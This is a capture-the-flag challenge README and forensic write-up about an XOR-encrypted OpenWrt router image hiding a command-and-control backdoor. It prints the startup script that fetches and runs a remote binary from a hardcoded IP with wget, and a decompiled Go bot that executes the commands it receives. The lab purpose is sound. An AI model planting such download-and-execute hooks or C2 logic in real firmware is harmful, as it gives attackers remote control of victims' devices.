



** REMOVE THIS NOTE                                                                                     **
**                                                                                                      **
** ALL THE INFORMATION IN THE BRACKET NEEDS TO BE REPLACED BY YOUR INFORMATION                          **
**                                                                                                      **
** The challenge folder structure is as follows:                                                        **
** README.md          - This file                                                                       **
** Challenge/Public   - All files that must be downloadable by participants (e.g. PCAPs, ZIPs,...)      **
** Challenge/Private  - If the challenge has a server-side component, it must be provided as well.      **
**                      Please provide us with a Docker-compose file for any challenges that have an    **
**                      online component. If possible, allow the challenge flag to be set through an    **
**                      environment variable.                                                           **
** Resources/         - Where you put PoC and other files that are not needed by the challenge itself.  **
**                      For example bio picture, PoC scripts,...                                        **
**                                                                                                      **
** REMOVE THIS NOTE                                                                                     **

# RouteretouR

## Category
Forensic

## Estimated difficulty
Hard

## Description
The challenge is about a dumper firmware router that contains a backdoor.
The backdoor virtually connect to a C2C server(not really the case).

Build fs
mksquashfs squashfs-root router.bin -all-root -noappend -all-time 1640330384


## Scenario
[This text will be shared with the students on the platform]

## Write-up
As it is a router firmware the first thing to do is check if it is the firmware is encrypted.
```
binwalk -E router.bin
```


The firmware seems to be encrypted due to the high entropy.

Let's have a look at the last bytes of the files to see if there is a repeating pattern:
```
┌──(hutchyy㉿hutchyy)-[router.bin]
└─$ xxd router.bin| tail
00311f70: dead beef 1337 dead beef 1337 dead beef  .....7.....7....
00311f80: 1337 dead beef 1337 dead beef 1337 dead  .7.....7.....7..
00311f90: beef 1337 dead beef 1337 dead beef 1337  ...7.....7.....7
00311fa0: dead beef 1337 dead beef 1337 dead beef  .....7.....7....
00311fb0: 1337 dead beef 1337 dead beef 1337 dead  .7.....7.....7..
00311fc0: beef 1337 dead beef 1337 dead beef 1337  ...7.....7.....7
00311fd0: dead beef 1337 dead beef 1337 dead beef  .....7.....7....
00311fe0: 1337 dead beef 1337 dead beef 1337 dead  .7.....7.....7..
00311ff0: beef 1337 dead beef 1337 dead beef 1337  ...7.....7.....7
00312000: 0a
```
There is a repeating pattern "deadbeef1337" at the end which is typical in XORed firmware as usually firmware ends with null bytes.
XORing a key with null bytes just gives you the key. Therefore, This is the XOR key to decrypt the firmware.
```
┌──(hutchyy㉿hutchyy)-[router.bin]
└─$ ~/.local/bin/xortool-xor -f router.bin  -h "deadbeef1337" > unxored_router.bin
```

Now that the firmware is decrypted, we can check for known files signatures:
```
┌──(hutchyy㉿hutchyy)-[unxored_router.bin]
└─$ binwalk unxored_router.bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Squashfs filesystem, little endian, version 4.0, compression:gzip, size: 3215663 bytes, 1072 inodes, blocksize: 131072 bytes, created: 2023-01-05 19:20:17
```
It shows a squashfs file system which is used a lot in the IoT as it only takes a very limited amount of space on the flash.
To do so, the filesystem is compressed when stored on the flash and decompressed during boot.

Let's extract its content:
```
┌──(hutchyy㉿hutchyy)-[unxored_router.bin]
└─$ binwalk -Me unxored_router.bin

Scan Time:     2023-01-05 20:30:54
Target File:   unxored_router.bin
MD5 Checksum:  c966ce8491b2d4c00f007f847d3ad93d
Signatures:    411

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Squashfs filesystem, little endian, version 4.0, compression:gzip, size: 3215663 bytes, 1072 inodes, blocksize: 131072 bytes, created: 2023-01-05 19:20:17
```

Now we need to find any stuff that could be harmful. If it is a router, the first thing to check is the OS.
Usually the routers uses a either fork a of the well known router OS called OpenWRT or OpenWRT vanilla. 

Let's check the os-release file:
```
┌──(hutchyy㉿hutchyy)-[/squashfs-root]
└─$ cat etc/os-release
NAME="OpenWrt"
VERSION="21.02.0"
ID="openwrt"
ID_LIKE="lede openwrt"
PRETTY_NAME="OpenWrt 21.02.0"
VERSION_ID="21.02.0"
HOME_URL="https://openwrt.org/"
BUG_URL="https://bugs.openwrt.org/"
SUPPORT_URL="https://forum.openwrt.org/"
BUILD_ID="r16279-5cc0535800"
OPENWRT_BOARD="realtek/generic"
OPENWRT_ARCH="mips_4kec"
OPENWRT_TAINTS=""
OPENWRT_DEVICE_MANUFACTURER="OpenWrt"
OPENWRT_DEVICE_MANUFACTURER_URL="https://openwrt.org/"
OPENWRT_DEVICE_PRODUCT="Generic"
OPENWRT_DEVICE_REVISION="v0"
OPENWRT_RELEASE="OpenWrt 21.02.0 r16279-5cc0535800"
```
It is indeed a OpenWRT firmware.

The thing to check next is the scripts launch at startup.
To do so on and OpenWRT router you need to first check the services in init.d than check if those exist in rc.d.
```
┌──(hutchyy㉿hutchyy)-[/squashfs-root]
└─$ ll etc/init.d
total 96
-rwxrwxrwx 1 hutchyy hutchyy  1305 Dec 24  2021 boot
-rwxrwxrwx 1 hutchyy hutchyy   846 Dec 24  2021 cron
-rwxrwxrwx 1 hutchyy hutchyy 32591 Dec 24  2021 dnsmasq
-rwxrwxrwx 1 hutchyy hutchyy   263 Dec 24  2021 done
-rwxrwxrwx 1 hutchyy hutchyy  5935 Dec 24  2021 dropbear
-rwxrwxrwx 1 hutchyy hutchyy   997 Dec 24  2021 firewall
-rwxrwxrwx 1 hutchyy hutchyy  1379 Dec 24  2021 gpio_switch
-rwxrwxrwx 1 hutchyy hutchyy   416 Dec 24  2021 initc2c
-rwxrwxrwx 1 hutchyy hutchyy  3502 Dec 24  2021 led
-rwxrwxrwx 1 hutchyy hutchyy  2339 Dec 24  2021 log
-rwxrwxrwx 1 hutchyy hutchyy  2706 Dec 24  2021 network
-rwxrwxrwx 1 hutchyy hutchyy   292 Dec 24  2021 odhcpd
-rwxrwxrwx 1 hutchyy hutchyy   393 Dec 24  2021 rpcd
-rwxrwxrwx 1 hutchyy hutchyy  1212 Dec 24  2021 sysctl
-rwxrwxrwx 1 hutchyy hutchyy   662 Dec 24  2021 sysfixtime
-rwxrwxrwx 1 hutchyy hutchyy  3226 Dec 24  2021 sysntpd
-rwxrwxrwx 1 hutchyy hutchyy  1007 Dec 24  2021 system
-rwxrwxrwx 1 hutchyy hutchyy  1339 Dec 24  2021 ucitrack
-rwxrwxrwx 1 hutchyy hutchyy  5504 Dec 24  2021 uhttpd
-rwxrwxrwx 1 hutchyy hutchyy   125 Dec 24  2021 umount
-rwxrwxrwx 1 hutchyy hutchyy   239 Dec 24  2021 urandom_seed
-rwxrwxrwx 1 hutchyy hutchyy   220 Dec 24  2021 urngd

┌──(hutchyy㉿hutchyy)-[/squashfs-root]
└─$ ll etc/rc.d
total 0
lrwxrwxrwx 1 hutchyy hutchyy 21 Dec 24  2021 K10gpio_switch -> ../init.d/gpio_switch
lrwxrwxrwx 1 hutchyy hutchyy 18 Dec 24  2021 K50dropbear -> ../init.d/dropbear
lrwxrwxrwx 1 hutchyy hutchyy 16 Dec 24  2021 K85odhcpd -> ../init.d/odhcpd
lrwxrwxrwx 1 hutchyy hutchyy 13 Dec 24  2021 K89log -> ../init.d/log
lrwxrwxrwx 1 hutchyy hutchyy 14 Dec 24  2021 K90boot -> ../init.d/boot
lrwxrwxrwx 1 hutchyy hutchyy 17 Dec 24  2021 K90network -> ../init.d/network
lrwxrwxrwx 1 hutchyy hutchyy 20 Dec 24  2021 K90sysfixtime -> ../init.d/sysfixtime
lrwxrwxrwx 1 hutchyy hutchyy 16 Dec 24  2021 K90umount -> ../init.d/umount
lrwxrwxrwx 1 hutchyy hutchyy 20 Dec 24  2021 S00sysfixtime -> ../init.d/sysfixtime
lrwxrwxrwx 1 hutchyy hutchyy 15 Dec 24  2021 S00urngd -> ../init.d/urngd
lrwxrwxrwx 1 hutchyy hutchyy 14 Dec 24  2021 S10boot -> ../init.d/boot
lrwxrwxrwx 1 hutchyy hutchyy 16 Dec 24  2021 S10system -> ../init.d/system
lrwxrwxrwx 1 hutchyy hutchyy 16 Dec 24  2021 S11sysctl -> ../init.d/sysctl
lrwxrwxrwx 1 hutchyy hutchyy 13 Dec 24  2021 S12log -> ../init.d/log
lrwxrwxrwx 1 hutchyy hutchyy 14 Dec 24  2021 S12rpcd -> ../init.d/rpcd
lrwxrwxrwx 1 hutchyy hutchyy 17 Dec 24  2021 S19dnsmasq -> ../init.d/dnsmasq
lrwxrwxrwx 1 hutchyy hutchyy 18 Dec 24  2021 S19dropbear -> ../init.d/dropbear
lrwxrwxrwx 1 hutchyy hutchyy 18 Dec 24  2021 S19firewall -> ../init.d/firewall
lrwxrwxrwx 1 hutchyy hutchyy 17 Dec 24  2021 S20network -> ../init.d/network
lrwxrwxrwx 1 hutchyy hutchyy 16 Dec 24  2021 S35odhcpd -> ../init.d/odhcpd
lrwxrwxrwx 1 hutchyy hutchyy 14 Dec 24  2021 S50cron -> ../init.d/cron
lrwxrwxrwx 1 hutchyy hutchyy 16 Dec 24  2021 S50uhttpd -> ../init.d/uhttpd
lrwxrwxrwx 1 hutchyy hutchyy 18 Dec 24  2021 S80ucitrack -> ../init.d/ucitrack
lrwxrwxrwx 1 hutchyy hutchyy 21 Dec 24  2021 S94gpio_switch -> ../init.d/gpio_switch
lrwxrwxrwx 1 hutchyy hutchyy 14 Dec 24  2021 S95done -> ../init.d/done
lrwxrwxrwx 1 hutchyy hutchyy 13 Dec 24  2021 S96led -> ../init.d/led
lrwxrwxrwx 1 hutchyy hutchyy 17 Dec 24  2021 S98sysntpd -> ../init.d/sysntpd
lrwxrwxrwx 1 hutchyy hutchyy 17 Dec 24  2021 S99initc2c -> ../init.d/initc2c
lrwxrwxrwx 1 hutchyy hutchyy 22 Dec 24  2021 S99urandom_seed -> ../init.d/urandom_seed
```

The only file that catch the eye is the initc2c, let's check what's in there:
```
┌──(hutchyy㉿hutchyy)-[/mnt/…/build/_routeretour.bin.extracted/_unxored_router.bin.extracted/squashfs-root]
└─$ cat etc/init.d/initc2c
#!/bin/sh /etc/rc.common
# Example script
# Copyright (C) 2007 OpenWrt.org

start() {
        if ! command -v /tmp/c2cbot &> /dev/null
        then
            wget --no-check-certificate "https://108.129.42.183/$(uname -m)/c2c" -O /tmp/c2c
            chmod +x /tmp/c2c
        fi

        if ! command -v /tmp/c2c &> /dev/null
        then
            exit
        else
            /bin/c2c &
        fi
}
```

Interesting! This script is downloading a binary from a source then execute it. 

The script uses "uname -m" which retrieves the current architecture of the router.
We can't execute uname -m as we don't have an access to the router.
However the binaries stored in the filesystem should help use retrieve the CPU architecture.

Let's check with busybox which is the shell used by the router:
```
┌──(hutchyy㉿hutchyy)-[~/squashfs-root/bin]
└─$ file busybox
busybox: ELF 32-bit MSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-mips-sf.so.1, no section header
```

The binary is a MIPS32, however we don't know its endianess, to find it we can just look at the 5th byte.
```
┌──(hutchyy㉿hutchyy)-[~/squashfs-root/bin]
└─$ hexdump -s 5 -n 1 -C busybox
00000005  02                                                |.|
00000006
```
01 is little endian and 02 is big endian. In this case it is big endian.
As it is mips 32 big endian, the arch display by uname is just "mips".

Let's download the binary:
```
wget --no-check-certificate "https://108.129.42.183/mips/c2c" -O /tmp/c2c
```

Let's do a file on the downloaded binary
```
┌──(hutchyy㉿hutchyy)-[/tmp/c2c]
└─$ file c2c
c2c: ELF 32-bit MSB executable, MIPS, MIPS32 version 1 (SYSV), statically linked, Go BuildID=z905xV-Uh6YlWoSJZ1U1/GaTK9IGZ10yW0CKuO_Ke/2-BVHkU5NLZGeGFJ9MWr/eRqgJ9puqc0ZjoYgw7KX, with debug_info, not stripped
```

Before opening any reverse tool, let's try to execute it using qemu-mips-static:
```
┌──(hutchyy㉿hutchyy)-[/tmp]
└─$ qemu-mips-static c2c
panic: open /lib/config/aHV0Y2h5.conf: permission denied

goroutine 1 [running]:
main.check(...)
        /home/hutchyy/CSCB2023/RouteretouR/Resources/Dropper/main.go:39
main.readConfig({0x33821c, 0x19})
        /home/hutchyy/CSCB2023/RouteretouR/Resources/Dropper/main.go:85 +0x410
main.main()
        /home/hutchyy/CSCB2023/RouteretouR/Resources/Dropper/main.go:118 +0xdc
```

It seems that it tries to access a configuration. Let's check if that config exist in the router image:
```
┌──(hutchyy㉿hutchyy)-[/squashfs-root]
└─$ cat lib/config/aHV0Y2h5.conf
{"d":"lPvvMkhwe7aL7ubgMnA=","s":"nfPvJA==","k":"5piUZzAsJKvcqK21VTFVvtGupW8mISP24L6tjmscSqrMpao="}
```
It exists and it contains some weird looking data!

Let's now create a copy of that config over my system and see what happens
```
┌──(hutchyy㉿hutchyy)-[/tmp]
└─$ qemu-mips-static c2c
Recived command: echo "CSC{st1ll_n0t_th3_fl4g}"
```


It seems that the binary is used by a command and control server to execute command on infected machines.

Let's open it in ghidra and see if we can understand what's going on in there.
Disassembling main.main gives the following:
```C
void main_main(void)

{
  undefined4 *puVar1;
  undefined4 *puVar2;
  char *pcVar3;
  uint uVar4;
  undefined **i;
  int unaff_s8;
  undefined *local_dc;
  char *local_d8;
  undefined **local_d4;
  uint local_d0;
  uint local_cc;
  undefined *local_c8;
  char *local_c4;
  uint local_c0;
  int local_b8;
  uint local_68 [2];
  uint local_60;
  char *local_5c;
  char *local_58;
  char *local_54;
  undefined *local_50;
  undefined4 *local_4c;
  char *local_48;
  char *local_44;
  char *local_40;
  undefined *local_3c;
  char *local_38;
  undefined *local_34;
  undefined4 local_30;
  char *local_2c;
  undefined4 local_28;
  undefined4 local_24;
  undefined *local_20;
  char *local_1c;
  undefined4 local_8;
  undefined4 local_4;
  
  while (local_68 <= *(uint **)(unaff_s8 + 8)) {
    runtime_morestack_noctxt();
  }
  runtime_stringtoslicebyte();
  encoding_hex_Decode();
  if (local_d0 < local_cc) {
                    /* WARNING: Subroutine does not return */
    runtime_panicSliceAcap();
  }
  if (local_c8 != (undefined *)0x0) {
                    /* WARNING: Subroutine does not return */
    runtime_gopanic();
  }
  main_readConfig();
  if (local_b8 != 0) {
                    /* WARNING: Subroutine does not return */
    runtime_gopanic();
  }
  local_58 = local_c4;
  local_68[0] = local_d0;
  local_60 = local_d0;
  runtime_makeslice();
  pcVar3 = (char *)0x0;
  while( true ) {
    if ((int)local_d8 <= (int)pcVar3) {
      local_40 = local_d8;
      runtime_makeslice();
      uVar4 = 0;
      while( true ) {
        if ((int)local_cc <= (int)uVar4) {
          local_44 = local_d8;
          runtime_makeslice();
          uVar4 = 0;
          while( true ) {
            if ((int)local_c0 <= (int)uVar4) {
              local_48 = local_d8;
              local_d4 = (undefined **)&_gp_4;
              runtime_concatstring3();
              local_dc = local_c8;
              local_d8 = local_c4;
              net_Dial();
              local_54 = local_44;
              local_4c = (undefined4 *)&_gp_4;
              do {
                puVar2 = local_4c;
                runtime_convI2I();
                pcVar3 = local_54;
                if (((uint)local_dc ^ 0x39edb4) != 0) {
                  pcVar3 = (char *)0x0;
                }
                local_50 = local_dc;
                if ((((uint)local_dc ^ 0x39edb4) != 0) || (*(int *)(pcVar3 + 4) < 0x1000)) {
                  runtime_newobject();
                  runtime_makeslice();
                  puVar1 = &local_30;
                  do {
                    puVar1[1] = 0;
                    puVar1 = puVar1 + 1;
                  } while (&local_4 != puVar1);
                  local_2c = local_d8;
                  local_28 = 0x1000;
                  local_24 = 0x1000;
                  local_20 = local_50;
                  local_1c = local_54;
                  local_8 = 0xffffffff;
                  local_4 = 0xffffffff;
                  if (runtime_writeBarrier._0_4_ == 0) {
                    puVar1 = &local_30;
                    do {
                      *puVar2 = puVar1[1];
                      puVar1 = puVar1 + 1;
                      puVar2 = puVar2 + 1;
                    } while (&local_4 != puVar1);
                  }
                  else {
                    runtime_typedmemmove();
                  }
                  pcVar3 = &_gp_3;
                }
                bufio___Reader__ReadString(pcVar3);
                if ((int)local_d8 < 2) {
                  return;
                }
                encoding_base64___Encoding__DecodeString();
                if (local_cc != 0) {
                    /* WARNING: Subroutine does not return */
                  runtime_gopanic();
                }
                local_5c = local_d8;
                runtime_makeslice();
                for (i = (undefined **)0x0; (int)i < (int)local_d4; i = (undefined **)((int)i + 1))
                {
                  if (local_d4 <= i) {
                    /* WARNING: Subroutine does not return */
                    runtime_panicIndex();
                  }
                  if (local_c0 == 0) {
                    /* WARNING: Subroutine does not return */
                    runtime_panicdivide();
                  }
                  if (local_c0 <= (uint)((int)i % (int)local_c0)) {
                    /* WARNING: Subroutine does not return */
                    runtime_panicIndex();
                  }
                  *(byte *)((int)i + (int)local_d8) =
                       local_48[(int)i % (int)local_c0] ^ *(byte *)((int)i + (int)local_5c);
                }
                local_40 = local_d8;
                local_3c = (undefined *)0x0;
                local_38 = (char *)0x0;
                runtime_convTslice();
                local_3c = &DAT_002f6500;
                local_38 = local_d8;
                fmt_Fprintf();
                runtime_slicebytetostring();
                os_exec_Command();
                os_exec___Cmd__Output();
                local_34 = (undefined *)0x0;
                local_30 = 0;
                runtime_convTslice();
                local_34 = &DAT_002f6500;
                local_30 = 0;
                runtime_convI2I();
                local_dc = &DAT_00331463;
                local_d8 = &_gp_7;
                local_d4 = &local_34;
                local_cc = 1;
                fmt_Fprintf();
              } while( true );
            }
            if (local_c0 <= uVar4) {
                    /* WARNING: Subroutine does not return */
              runtime_panicIndex();
            }
            if (local_cc == 0) break;
            if (local_cc <= (uint)((int)uVar4 % (int)local_cc)) {
                    /* WARNING: Subroutine does not return */
              runtime_panicIndex();
            }
            local_d8[uVar4] = local_d8[(int)uVar4 % (int)local_cc] ^ local_58[uVar4];
            uVar4 = uVar4 + 1;
          }
                    /* WARNING: Subroutine does not return */
          runtime_panicdivide();
        }
        if (local_cc <= uVar4) {
                    /* WARNING: Subroutine does not return */
          runtime_panicIndex();
        }
        if (local_cc == 0) break;
        if (local_cc <= (uint)((int)uVar4 % (int)local_cc)) {
                    /* WARNING: Subroutine does not return */
          runtime_panicIndex();
        }
        local_d8[uVar4] = local_d8[(int)uVar4 % (int)local_cc] ^ *(byte *)(uVar4 + local_68[0]);
        uVar4 = uVar4 + 1;
      }
                    /* WARNING: Subroutine does not return */
      runtime_panicdivide();
    }
    if (local_d8 <= pcVar3) {
                    /* WARNING: Subroutine does not return */
      runtime_panicIndex();
    }
    if (local_cc == 0) break;
    if (local_cc <= (uint)((int)pcVar3 % (int)local_cc)) {
                    /* WARNING: Subroutine does not return */
      runtime_panicIndex();
    }
    pcVar3[(int)local_d8] = local_d8[(int)pcVar3 % (int)local_cc] ^ pcVar3[local_60];
    pcVar3 = pcVar3 + 1;
  }
                    /* WARNING: Subroutine does not return */
  runtime_panicdivide();
}
```
The code confirms the behaviour we saw before, it is using go functions such as net_Dial and os_exec_Command to connect and exec commands.
When a command is received(bufio___Reader__ReadString) it decodes the base64(encoding_base64___Encoding__DecodeString), then seems to do something with it:
```c
for (i = (undefined **)0x0; (int)i < (int)local_d4; i = (undefined **)((int)i + 1))
{
    *(byte *)((int)i + (int)local_d8) =
        local_48[(int)i % (int)local_c0] ^ *(byte *)((int)i + (int)local_5c);
}
```
It seems that it does a xor operation on received content.

Let's emulate the binary but this time wait for a debugger to connect on port 1337 and check at 0x002d6858 address(just after the operation) if we can see something.
```
┌──(hutchyy㉿hutchyy)-[/tmp]
└─$ qemu-mips-static -g 1337 c2c
```

```
┌──(hutchyy㉿hutchyy)-[/tmp]
└─$ gdb-multiarch /tmp/c2c
pwndbg> set arch mips
The target architecture is set to "mips".
pwndbg> set endian big
The target is set to big endian.
pwndbg> target remote localhost:1337
pwndbg> break *0x002d6858
Breakpoint 1 at 0x002d6858
pwndbg> c
```

Breaking at the address we can see that V1(the XOR key) contains the flag "CSC{Inf3cted_routers_can_be_a_pain}" adn T2 contains the command to be executed 'echo "CSC{st1ll_n0t_th3_fl4g}"'


## PoC script
-

## Flag
CSC{Inf3cted_routers_can_be_a_pain}

## Creator
Julian Dotreppe

## Creator bio
-